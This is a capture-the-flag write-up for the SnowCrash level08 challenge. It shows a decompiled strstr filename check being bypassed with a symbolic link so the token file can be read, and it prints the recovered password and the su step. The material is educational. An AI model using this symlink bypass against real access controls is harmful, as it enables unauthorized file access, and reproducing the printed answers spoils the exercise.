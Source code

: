 We start by exploring the files and find two items: `level08` (an executable) and `token`

```
level08@SnowCrash:~$ ls
level08  token
```

Running `./level08` shows that it expects a file to read.

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

Attempting to read `token` directly returns an error:

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Disassembling the binary in Ghidra reveals the following logic:

```
int main(int argc,char **argv,char **envp)
{
  ...
  pcVar1 = strstr(in_stack_00000008[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",in_stack_00000008[1]);
    exit(1);
  }
  __fd = open(in_stack_00000008[1],0);
  ...
}
```

1. **String Check with `strstr`**:

   - The program uses `strstr` to search for the string `"token"` in the provided file path.
   - If `"token"` is found in the file name, the program prints an error and exits.

2. **File Access Logic**:
   - If the file name does not contain `"token"`, the program opens and reads the file, displaying its contents.

To bypass the `strstr` check, we can create a symbolic link (`ln -sf`) to the `token` file with a different name.

1. **Creating the Symbolic Link**:
   - We create a symbolic link pointing to the `token` file but with a different name (`/tmp/tst`):

```
   level08@SnowCrash:~$ ln -sf ~/token /tmp/tst
```

2. **Executing the Exploit**:
   - Running `./level08 /tmp/tst` reads from the symbolic link, bypassing the `strstr` check on `"token"`.

```
   level08@SnowCrash:~$ ./level08 /tmp/tst
   quif5eloekouj29ke0vouxean
```

---

Using this token to switch users:

```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
```

Once logged in, running `getflag` retrieves the flag:

```
flag08@SnowCrash:~$ getflag
Check flag.Here is your token :
```

This completes the exploit for Level08.
